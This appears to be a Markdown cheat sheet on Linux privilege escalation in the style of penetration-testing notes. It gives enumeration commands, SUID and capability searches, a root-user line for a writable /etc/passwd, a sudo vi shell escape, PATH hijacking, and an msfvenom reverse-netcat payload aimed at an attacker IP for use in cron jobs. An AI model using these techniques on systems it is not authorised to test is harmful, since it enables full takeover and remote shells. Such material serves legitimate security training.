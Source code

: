 # [Linux] - PrivEsc

[Guide](https://book.hacktricks.xyz/linux-hardening/privilege-escalation)

---

## Enumeration

Get information with hostname (prod server, bdd server, etc.)

```bash
$ hostname
```

Get kernal version

```bash
$ uname -a
$ cat /proc/version
```

Show banner

```bash
$ cat /etc/issue
```

Show process

```bash
$ ps -A
$ ps axjf
$ ps aux
```

Env informations

```bash
$ env
```

Sudo 

```bash
$ sudo -l
```

Get groups of current user

```bash
$ id
```

Show history 

```bash
$ history
```

Show openned ports (listen)

```bash
$ netstat -a
$ netstat -l
# Get statistics
$ netstat -s
$ netstat -lntp
$ netstat -ano
```

---

---

## Automatic enumerate

Execute **LinEnum.sh**

[Get LinEnum.sh](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)
[Get LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
[LES (Linux Exploit Suggester)](https://github.com/mzet-/linux-exploit-suggester)
[Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
[Linux Priv Checker](https://github.com/linted/linuxprivchecker)

---

## Kernel exploitation

Warning : Failed kernel exploit can lead to a system crash.

Methodology : 1. Identify the kernel version / 2. Search and find exploit / 3. Exploit

[Linux Kernel](https://www.linuxkernelcves.com/cves)
[Exploit DB](https://www.exploit-db.com/)

---

## SUID/GUID Files

Find SUID :

```bash
$ find / -perm -u=s -type f 2>/dev/null
```

OR

```bash
$ find / -perm /4000 -type f 2>/dev/null
```

Find GUID :

```bash
$ find / -perm -g=s -type f 2>/dev/null
```

OR

```bash
$ find / -perm /2000 -type f 2>/dev/null
```

---

## Capabilites

```bash
$ getcap -r / 2>/dev/null
```

---

## Exploiting a writable /etc/passwd

If /etc/passwd is writable, add an user with this follow line :

Before, we need to generated a password salty :

```bash
$ openssl passwd -1 -salt <salt> <password>
```

```bash
<user>:<salty_password>:0:0::/root:/bin/bash
```

---

## Use binary sudo (like sudo vi)

List what commands are you able to execute as a super user (example below with vi) :

```bash
$ sudo -l
[...]
(root) NOPASSWD: /usr/bin/vi
```

You can execute vi like this :

```bash
$ sudo /usr/bin/vi
```

Then, run this follow command :

```bash
!/bin/bash
```

---

## Show crontab

Execute LinEnum.sh or enumerate crontab :

```bash
$ ls -l /etc/cron*
```

If you a crontable file execute by higher user you can modify then with reverse shell payload for example :

Find a payload on GTFOBINS or you can "manually" create this :

```bash
msfvenom -p cmd/unix/reverse_netcat lhost=<attacker_ip> lport=<listening_port> R
```

---

## PATH Variable

Overwrite the PATH variable

If we find a script run as higher privileges user but there we cant modify. You can see if this script run a "classic" command like ls.

If there is, write a new file with the name of this command :

```bash
echo "/bin/bash > /tmp/ls
```

And export the PATH variable of binaries :

```bash
export PATH=/tmp:$PATH
```

Then execute the initial script.

---

## Ressources

https://github.com/netbiosX/Checklists/blob/master/Linux-Privilege-Escalation.md

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md

https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_-_linux.html

https://payatu.com/guide-linux-privilege-escalation
